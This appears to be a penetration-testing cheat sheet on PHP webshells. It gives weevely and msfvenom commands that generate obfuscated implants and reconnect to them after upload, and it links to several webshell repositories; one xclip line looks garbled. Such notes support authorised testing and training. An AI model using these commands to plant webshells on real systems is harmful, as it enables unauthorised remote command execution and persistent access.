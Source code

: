 ```yaml
---
author(s):
  - Userware
tags:
  - webapp-pentesting
  - initial-access
  - webshell
  - cross-platform
  - weevely
  - metasploit-framework
---
```

# PHP

Unlike the regular shells with network sockets (reverse shells and bind shells) that we use to receive a connection. Webshells functions way differently that it doesn't require port forwarding nor a C2 server when sending commands from the attacker. It only requires to send HTTP request to execute commands from the foothold.

## 01 - Generate via `weevely`

Generate a webshell implant and it's obfuscated by default.

```
$ weevely generate $(openssl rand -hex 6) <path>

$ weevely generate -obfuscator phar $(openssl rand -hex 6) implant.php

$ weevely generate -obfuscator obfusc1_php $(openssl rand -hex 6) implant.php
```

Generate a webshell implant without obfuscation.

```
$ weevely generate -obfuscator cleartext1_php $(openssl rand -hex 6) implant.php
```

After successfully uploading on the target's system we can finally move on to post exploitation phase.

```
$ weevely terminal <URL> <password>

$ weevely terminal <URL> <password> "[commands]"
```

To reconnect the session in case when you suddenly got disconnected.

```
$ weevely session /path/to/session

$ weevely session /path/to/session "[commands]"
```

## 02 - Generate via `msfvenom`

Executable webshells.

```
$ msfvenom -p php/exec cmd="<commands>" -f raw -o implant.php
```

After generating the PHP implant include the tags to ensure execution.

```
$ xclip -selection clipboard implant.php && echo '<?php ' | tr -d '\n'> shell.php && xclip -selection clipboard -o >> implant.php
```

## 03 - Laudanum

You can navigate to `/usr/share/laudanum` or `/usr/share/webshells` based on what pentest OS distribution you have or you can clone it on github.

## 04 - SecurityNotFound

```
$ git clone --depth=1 https://github.com/CosasDePuma/SecurityNotFound.git /opt/webshells/SecurityNotFound/
```

---
## References

### Backlinks

- [[Random Characters]]

### Source Repositories

- [tennc: webshell](https://github.com/tennc/webshell)

- [Blackarch: Webshells](https://github.com/BlackArch/webshells)

- [JohnTroony: PHP-Webshells](https://github.com/JohnTroony/php-webshells)

- [Archive-Puma: SecurityNotFound](https://github.com/Archive-Puma/SecurityNotFound)

- [Arrexel: PHPBash](https://github.com/Arrexel/phpbash)

- [flozz: p0wny-shell](https://github.com/flozz/p0wny-shell)

- [gellin: bantam](https://github.com/gellin/bantam)

- [Description of WWolf](https://www.whitewinterwolf.com/tags/php-webshell/)

- [WWolf-PHP-Webshell](https://github.com/WhiteWinterWolf/wwwolf-php-webshell)